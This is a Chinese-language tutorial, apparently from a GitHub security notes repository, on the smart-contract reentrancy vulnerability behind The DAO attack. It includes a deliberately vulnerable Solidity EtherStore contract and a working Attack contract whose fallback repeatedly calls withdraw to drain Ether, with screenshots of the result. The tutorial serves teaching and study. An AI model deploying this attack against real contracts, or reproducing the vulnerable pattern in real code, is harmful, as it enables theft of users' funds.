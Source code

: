 重入漏洞
==

漏洞介绍
--

重入攻击(Reentrancy Attack)首次出现于以太坊，对应的真实攻击为 The DAO 攻击，此次攻击还导致了原来的以太坊分叉成以太经典(ETC)和现在的以太坊(ETH)。由于项目方采用的转账模型为先给用户发送转账然后才对用户的余额状态进行修改，导致恶意用户可以构造恶意合约，在接受转账的同时再次调用项目方的转账函数。利用这样的方法，导致用户的余额状态一直没有被改变，却能一直提取项目方资金，最终导致项目方资金被耗光。  


漏洞复现
--

1.部署一个包含重入漏洞的合约<code>EtherStore</code>  

    contract EtherStore {
        mapping(address => uint) public balances;

        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdraw() public {
            uint bal = balances[msg.sender];
            require(bal > 0);

            (bool sent, ) = msg.sender.call{value: bal}("");
            require(sent, "Failed to send Ether");

            balances[msg.sender] = 0;
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
    
2.向<code>EtherStore</code>存入任意ETH，这里存入4个ETH  

![tempsnip](https://user-images.githubusercontent.com/35074461/197673688-924bfb1d-c253-4959-b7a7-b9f4acc3c9e9.png)


3.查看<code>EtherStore</code>余额，为4ETH  

![image](https://user-images.githubusercontent.com/35074461/197672627-c8e42e69-9233-4589-a15f-d722bd759608.png)

4.部署攻击合约<code>Attack</code>，地址填入<code>EtherStore</code>合约地址

        contract Attack {
            EtherStore public etherStore;

            constructor(address _etherStoreAddress) {
                etherStore = EtherStore(_etherStoreAddress);
            }

            // Fallback is called when EtherStore sends Ether to this contract.
            fallback() external payable {
                if (address(etherStore).balance >= 1 ether) {
                    etherStore.withdraw();
                }
            }

            function attack() external payable {
                require(msg.value >= 1 ether);
                etherStore.deposit{value: 1 ether}();
                etherStore.withdraw();
            }


            // Helper function to check the balance of this contract
            function getBalance() public view returns (uint) {
                return address(this).balance;
            }
        }
5.使用<code>Attack</code>方法，向<code>EtherStore</code>合约转账1个ETH  

![image](https://user-images.githubusercontent.com/35074461/197674208-c5e45461-c663-4650-8853-58f31a713541.png)  

6.查看<code>Attack</code>合约余额发现为5个ETH

![image](https://user-images.githubusercontent.com/35074461/197674478-73777950-7047-4ac9-b8ed-75d520101978.png)

漏洞分析
--
